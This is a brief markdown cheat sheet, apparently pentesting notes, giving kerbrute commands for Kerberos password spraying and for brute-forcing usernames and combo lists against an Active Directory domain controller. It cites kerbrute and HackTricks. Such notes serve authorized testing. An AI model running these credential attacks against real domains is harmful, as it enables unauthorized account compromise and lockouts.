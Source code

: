 # Kerberos

- Password Spray each domain username accounts from an active directory

`$ ./kerbrute passwordspray -d <FQDN> users.lst <password>`

- Brute force a username with a password dictionary (not recommended unless it has no lockout policy!)

`$ ./kerbrute bruteuser -d <FQDN> passwords.lst <username>`

- Brute force with a combo list of usernames and passwords against a domain controller

`$ cat combos.lst | ./kerbrute -d <FQDN> bruteforce -`

---
## References

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)